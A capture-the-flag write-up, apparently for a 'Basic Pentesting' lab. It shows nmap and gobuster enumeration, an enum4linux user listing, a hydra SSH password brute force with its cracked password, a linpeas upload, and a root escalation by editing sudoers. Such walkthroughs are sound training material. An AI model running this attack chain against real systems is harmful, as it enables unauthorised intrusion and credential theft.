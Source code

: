 # Basic Pentesting

IP = 10.10.244.41

## Nmap Scan
```bash
❯ nmap 10.10.244.41
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-24 12:05 IST
Nmap scan report for 10.10.244.41
Host is up (0.30s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 47.58 seconds
```

## Directory Brute-Force using gobuster

```bash
❯ gobuster dir -u 10.10.244.41 -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.244.41
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/amass/subdomains-top1mil-5000.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/24 13:02:08 Starting gobuster in directory enumeration mode
===============================================================
/development          (Status: 301) [Size: 318] [--> http://10.10.244.41/development/]
```

Listed Files
1. dev.txt
1. j.txt

Content of dev.txt
```txt
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```
Content of j.txt
```txt
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

SMB enumaration using enum4linux
```bash
❯ enum4linux -a 10.10.244.41
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

Brute Forcing SSH with hydra
```bash
❯ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.2
[ssh] host: 10.10.244.41   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
```

Sharing Linpeas over scp 
```bash
❯ sudo scp /home/arrry/.github/cloned/PEASS-ng/linPEAS/linpeas.sh jan@10.10.244.41:/dev/shm
```

Executing it in victim 
```bash
chmod +x linpeas.sh
./linpeas.sh
```
Found /user/bin/vim.basics with perms
Add following lines in etc/sudoer
```txt
jan	(ALL:ALL) ALL
kay (ALL:ALL) ALL
```
Login as sudo
```bash
jan@basic2:~$ sudo -i
root@basic2:~# cd /home/kay
root@basic2:/home/kay# cat pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```
